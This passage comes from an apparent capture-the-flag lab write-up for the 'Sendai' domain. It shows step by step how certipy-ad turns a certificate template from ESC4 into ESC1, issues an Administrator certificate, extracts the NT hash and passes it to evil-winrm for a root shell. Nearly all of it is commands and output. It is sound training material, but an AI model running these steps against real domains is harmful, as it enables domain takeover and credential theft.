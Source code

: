 To keep things at a low-level, we can essentially modify the ESC4 template to become vulnerable to ESC1. We can then exploit the ESC1 vulnerability and gain a service ticket as the Administrator user.

We'll first start by converting said template to be vulnerable to ESC4.

```
└─$ certipy-ad template -username 'clifford.davey'@sendai.vl -password '(CLIFFORD.DAVEY PASSWORD)' -template SendaiComputer -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'SendaiComputer' to 'SendaiComputer.json'
[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```

Now that the template is vulnerable to ESC1, we can request for a keyfile for the Administrator user.

```
└─$ certipy-ad req -username 'clifford.davey'@sendai.vl -password '(CLIFFORD.DAVEY PASSWORD)' -template SendaiComputer -ca sendai-DC-CA -target dc.sendai.vl -upn administrator@sendai.vl
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

`certipy-ad` will generate a keyfile for us that we can use to obtain a service ticket for this user. We'll use the `auth` tool for this.

```
└─$ certipy-ad auth -pfx administrator.pfx -username 'Administrator' -domain 'sendai.vl' -dc-ip 10.10.98.227
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106[...snip...]8d087a
```

Now that we have the NT hash for the Administrator user, we can simply use PTH with `evil-winrm` to authenticate to the machine.

```
└─$ evil-winrm --ip 10.10.98.227 -u 'Administrator' -H 'cfb106[...snip...]be8d087a'
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ..\Desktop\root.txt
VL[...snip...]
```
